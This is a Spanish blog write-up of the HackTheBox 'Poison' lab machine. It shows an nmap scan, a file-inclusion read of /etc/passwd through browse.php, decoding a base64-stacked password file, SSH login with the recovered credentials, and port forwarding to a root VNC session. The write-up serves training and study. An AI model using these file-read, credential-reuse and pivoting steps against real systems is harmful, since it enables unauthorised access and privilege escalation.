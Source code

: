 ```yaml
---
layout: post
title: "Poison"
subtitle: 'HackTheBox - Medium Machine - Linux'
date: 2020-03-29 12:00:00
author: "TheusZero"
header-img: "images/post/poison/1.png"
catalog: true
comments: true
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


# Poison

Es una maquina divertida, tiene varios caminos que te puedes plantear, sin embargo creo que lo mas importante es que
te puede enseñar muxo, en el sentido del privesec y del enum.

> Buena maquina, divertida y completa. Mis respetos al creador :D

## Enumeracion


#### NMAP
```vim
# Nmap 7.70 scan initiated Sat Sep 15 14:45:00 2018 as: nmap -n -vvv -sS -Pn --min-rate 5000 -oA nmap/initial 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up, received user-set (0.073s latency).
Scanned at 2018-09-15 14:45:00 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Sep 15 14:45:00 2018 -- 1 IP address (1 host up) scanned in 0.58 seconds
```

Con esto notamos que, solo tenemos dos vias, explorar el HTTP y entrar por ssh o por alguna reverse shell.

Desde aqui hay varios caminos, sin embargo explicare el que yo realice para lograr hacer la maquina.

#### Web
Ya revisando lo que es la web, podemos ver lo siguiente:

![](/TheusZero/images/post/poison/2.png)

revisando los ***.php** podemos ver que uno de ellos de nombre **listfiles.php** tiene como informacion lo siguiente

> Array
  (
      [0] => .
      [1] => ..
      [2] => browse.php
      [3] => index.php
      [4] => info.php
      [5] => ini.php
      [6] => listfiles.php
      [7] => phpinfo.php
      [8] => pwdbackup.txt
  )

Aquel **pwdbackup.txt** parece mega sospechoso, en el encontramos que nos muestra los archivos de una forma sospechosa tambien.

Lo primero que hice fue cambiar la url mandando la misma peticion del GET pero en la parte de **.php?file=** le mande lo sgte:
> **http://10.10.10.84/browse.php?file=/etc/passwd**

como lo crei, me leyo el archivo /etc/passwd y logre cachar que habia un user llamado:
> **charix**

ya con esta informacion me puse a investigar el **pwdbackup.txt** que habia dejado botado, obteniendo de el lo sgte:

```vim
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

brigido, a simple vista parece un base64 asi que me dispuse a hacer la conversion las 13 veces que pedia.

> **wget http://10.10.10.84/pwdbackup.txt**
>> **tail -n +3 pwdbackup.txt |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d**
>>> **Charix!2#4%6&8(0**

## User
No se me ocurrio otra cosa que hacer, que intentar acceder al ssh con las credenciales obtenidas.
**charix:Charix!2#4%6&8(0**
Con eso logramos entrar y obtener el user.txt

## Root

El root me parecio algo bacan, ya que es mucho mas complejo que el user.

al entrar al home del user, podemos encontrar un archivo llamado **secret.zip** al descomprimirlo es un mensaje ecnriptado o un tipo de passwd que no conozco, asi que me dispuse a enumerar un poco la maquina.
```vim
charix@Poison:~ % netstat -anp tcp | grep -i listen
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN 
```

pense en investigar los puertos 5901 y 5801, pero el camino que recorri fue el del 5901 ya que cache que bajo la maquina corre el siguiente servicio:

```vim
charix@Poison:~ % ps auxww
USER    PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
...
root    545   0.0  0.9  23620  9032 v0- I    15:13    0:00.09 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport
...
```

entrando en mi maquina, hice un [PortForwarding](https://theuszer0.github.io/TheusZero/CheatSheets/#ssh) para abrir el puerto 5901 bajo mi maquina.

#### VNC

el servicio corresponde a un [VNC](https://www.realvnc.com/es/connect/) , que a primera vista parece un xterm y se define como un software de acceso remotO.

asi que, vamos al port forwardinggggg...
```vim
ssh -L 5901:localhost:5901 -N -f -l charix 10.10.10.84
```
ya montado el proceso, usaremos la herramienta vncviewer.
```vim
vncviewer localhost:5901
```
de momento nos pide una password y creo que el **secret.zip** debe tenerla.

#### descargar el .zip

para descargar el .zip ocupe el siguiente comando, todo va incluido
```vim
sshpass -p 'Charix!2#4%6&8(0' scp -oStrictHostKeyChecking=no charix@10.10.10.84:secret.zip .
```
```vim
root@kali:~# cat secret
[|Ֆz!
```
```vim
root@kali:~# xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```
la clave esta codificada en algun algoritmo que de principio no debemos tocar, asi que me dispuse a ingresar al VCN con la password.

#### Password VCN
```vim
vncviewer -passwd secret localhost:5901
```
listo, entramos como root y podemos leer todo UWU.

